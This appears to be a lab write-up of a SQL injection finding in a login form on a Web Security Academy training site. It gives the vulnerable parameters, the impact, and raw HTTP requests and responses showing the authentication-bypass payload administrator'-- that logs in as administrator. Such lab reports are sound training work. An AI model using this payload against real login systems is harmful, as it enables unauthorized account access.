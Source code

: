 **Location:** Login form - Username parameter

**Affected Parameters:**

- `username` - Vulnerable to SQL injection
- `password` - Part of vulnerable SQL query construction

**Description:**  

The website's log-in functionality contain SQL Injection vulunerability. The vulunerability occurs because input form of username field is directly connected into a SQL query without filter or parameterization. This make attacker can manipulate the SQL query logic and bypass authenication control.

**Impact:**

- **Technical Impact:** Complete authentication bypass, unauthorized administrative access.
- **Business Impact:** Unauthorized access to sensitive administrative functions, In this lab attacker can change the E-mail address.

### Proof of Concept

#### Step 1: Normal Request (Baseline)

```http
POST /login HTTP/2
Host: 0ae700c103b9f35c803d497900c100e2.web-security-academy.net
Cookie: session=mAckIuEwmtz9GFHESn1z8FcmGKYOgF35

csrf=xVxXemZPSlolHGwHAS8NnYj1qYCuyG5S&username=administrator&password=1234
```

**Response:**

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3227
```



#### Step 2: SQL Injection Exploitation

```http
POST /login HTTP/2
Host: 0ae700c103b9f35c803d497900c100e2.web-security-academy.net
Cookie: session=mAckIuEwmtz9GFHESn1z8FcmGKYOgF35

csrf=xVxXemZPSlolHGwHAS8NnYj1qYCuyG5S&username=administrator'--&password=1234
```

**Response:**

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=jgzZ3IkCcYxsdKvq08QwACaw2BDa7BX8; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
